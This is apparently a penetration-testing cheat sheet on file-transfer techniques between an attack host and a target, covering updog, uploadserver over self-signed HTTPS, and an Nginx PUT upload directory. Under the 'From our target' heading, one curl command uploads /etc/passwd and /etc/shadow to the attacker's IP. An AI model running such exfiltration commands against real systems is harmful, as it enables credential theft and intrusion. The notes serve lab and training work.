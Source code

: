### Both ways

#### Updog

- Another great tool to transfer is [updog](https://github.com/sc0tfree/updog), it goes both ways if you can access a browser :D :D :D
- `pip3 install updog` easy as this to install

#### uploadserver

##### From our attack machine

- Get it [here](https://github.com/Densaugeo/uploadserver)
- `python3 -m pip install --user uploadserver` start the web server
- `openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'` create a self signed certificate
- `mkdir https && cd https` start the webserver `python3 -m uploadserver 443 --server-certificate /root/server.pem`

##### From our target

- `curl -X POST https://192.168.49.128/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow' --insecure` (insecure is for the self signed certificate)
- `wget 192.168.49.128:8000/filetotransfer.txt` diwload a file from the target to our attack

> Note: When we start a new web server using Python or PHP, it's important to consider that inbound traffic may be blocked. We are transferring a file from our target onto our attack host, but we are not uploading the file

### Enable PUT - Nginx

- `sudo mkdir -p /var/www/uploads/SecretUploadDirectory` Create a Directory to Handle Uploaded Files
- `sudo chown -R www-data:www-data /var/www/uploads/SecretUploadDirectory` Change the Owner to www-data
- Create the nginx config file `/etc/nginx/sites-available/upload.conf` and put this in it  

```conf
server {
    listen 9001;
    
    location /SecretUploadDirectory/ {
        root    /var/www/uploads;
        dav_methods PUT;
    }
}
```

- `sudo ln -s /etc/nginx/sites-available/upload.conf /etc/nginx/sites-enabled/` Symlink our Site to the sites-enabled Directory
- `sudo systemctl restart nginx.service` Start Nginx
- In case of error we can check the logs to debug 

```bash
tail -2 `/var/log/nginx/error.log`
```
